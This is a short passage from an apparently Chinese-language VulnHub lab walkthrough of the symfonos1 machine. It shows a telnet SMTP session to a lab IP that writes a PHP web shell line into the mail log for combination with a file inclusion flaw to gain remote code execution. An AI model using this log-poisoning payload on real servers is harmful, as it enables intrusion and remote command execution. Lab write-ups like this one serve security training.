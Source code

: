 ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos1/16.png)

使用重置后的密码登录后台,尝试拿 shell 无果,google 后发现有人使用 SMTP 日志投毒配合 LFI 来进行 RCE https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/

跟着大佬学
```
telnet 192.168.141.148 25
MAIL FROM: <test>
RCPT TO: Helios
data
<?php system($_GET['a']);?>
.
quit
```
